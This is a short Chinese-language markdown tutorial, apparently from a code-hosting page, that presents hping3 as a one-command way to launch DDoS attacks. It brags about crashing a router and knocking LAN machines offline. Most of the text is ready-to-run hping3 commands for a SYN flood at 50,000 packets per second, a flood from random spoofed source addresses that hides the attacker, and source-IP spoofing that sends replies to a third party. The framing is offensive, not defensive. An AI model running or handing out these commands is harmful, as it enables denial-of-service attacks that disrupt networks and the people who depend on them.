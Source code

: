 # 一条命令实现DDOS攻击

	这个工具可太强了，一会就把路由器发崩溃了，局域网的电脑也连不上了

# 工具
1. hping3

```shell
# debian
apt install hping3
# mac
brew install hping
# centos
brew install hping3
```

# SYN DDOS攻击

	工具使用方法
```shell
# -S specifies sending SYN packets
# -p 80 targets port 80
# -i u20 waits 20 microseconds between packets = 50,000
# packets per second
sudo hping3 -i u20 -S -p 80 -c 50000 ip(x.x.x.x)
```

# 隐藏自身IP地址

	模拟出多个IP攻击主机的情况
	其实SYN攻击，只需要发送SYN包，返回的包根本不处理
	所以SYN包的source_address可以随机填写

```shell
# --rand-source    random source address mode
# --flood	   sent packets as fast as possible
sudo hping3 --rand-source -flood -S -p 80 ip(x.x.x.x)
```

# 其它
1. hping3还可以IP欺骗
	类似arp投毒，原理都很简单，发送假的本机IP
```shell
# 发送三次SYN包到<target IP>,原本应该返回到本机，但是现在返回到了<spoofed IP>
hping3 -S <target IP> -a <spoofed IP> -c 3
```
